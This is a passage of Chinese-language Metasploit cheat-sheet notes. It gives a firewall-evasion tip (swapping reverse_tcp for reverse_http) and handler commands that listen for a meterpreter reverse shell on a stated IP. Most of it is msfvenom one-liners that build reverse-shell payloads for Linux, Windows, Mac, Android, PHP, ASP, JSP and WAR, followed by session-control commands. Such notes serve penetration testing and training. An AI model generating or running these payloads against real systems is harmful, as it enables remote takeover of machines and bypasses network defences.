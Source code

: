   * 一般使用tcp连接会背防火墙拦截，但是使用https或者http，cs协议防火墙一般不拦截reverse_tcp-------->reverse_http


* **handler后台持续监听**
  * -j为后台任务，-z为持续监听
    ```bash
    msf exploit（multi/handler）>exploit -j -z
    ```
    
  * 直接简历侦听，并且是后台运行
    ```bash
    msf >handler -H 1.1.1.1 -P 1102 -p windows/meterpreter/reverse_tcp
    ```
    
  * 使用msf >jobs -K结束所有任务

* **payload生成**
  * 反弹连接payload生成
    ```bash
    Linux系统：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -a x86 --platform Linux -f elf > shell.elf
    ```
    ```bash
    windows系统：msfvenom -p windows/x86/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f exe > shell.exe
    ```
    ```bash
    Mac系统：msfvenom -p osx/x86/shell_reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f macho > shell.macho
    ```
    ```bash
    Android系统：msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f raw > shell.apk
    ```
    ```bash
    PHP脚本：msfvenom -p php/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f raw > shell.php
    ```
    ```bash
    ASP脚本：msfvenom -p windows/meterpreter/reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f asp > shell.asp
    ```
    ```bash
    JSP脚本：msfvenom -p jsp_shell_reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f raw > shell.jsp
    ```
    ```bash
    WAR：msfvenom -p jsp_shell_reverse_tcp LHOST=本地IP地址 LPORT=本地要连接的端口 -f war > shell.war
    ```
    
  * 查看连接
    ```bash
    msf > sessions -l（会显示所有连接）
    ```
    
  * 切换连接
    ```bash
    msf > sessions -i 1（切换到1号连接）
    meterpreter > background（将1号连接挂在后台）
    meterpreter > exit（退出连接并关闭）
    ```
    